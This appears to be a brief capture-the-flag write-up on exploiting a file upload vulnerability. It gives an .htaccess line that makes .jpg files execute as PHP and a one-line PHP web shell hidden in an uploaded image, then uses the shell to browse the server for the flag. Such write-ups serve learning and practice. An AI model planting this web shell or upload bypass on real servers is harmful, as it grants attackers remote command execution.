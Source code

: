 If you prefer the text version : 

# Reconnaissance

With this challenge we immediately guess that there's a file upload vulnerability

![i2](13.jpg)

After uploading an image, we see it in uploads/

![i2](14.jpg)

 # Exploitation

First we'll upload an .htaccess that will allow us to upload jpg files but interpreted as php. The trick here is to inject some php code in the jpg file, we can use burpsuite for it.
The .htaccess file contains `AddType application/x-httpd-php .jpg`.

We can then upload an image with the following code giving us a web shell:
`<?php if(isset($_GET["cmd"])) system($_GET["cmd"]); ?>`

![i2](17.jpg)

Let's gooo our getshell works we can use the command we want, starting with a classic ls and some others commands until we reach the flag by exploring.

![i2](18.jpg)
![i2](19.jpg)
![i2](20.jpg)

Flagged !
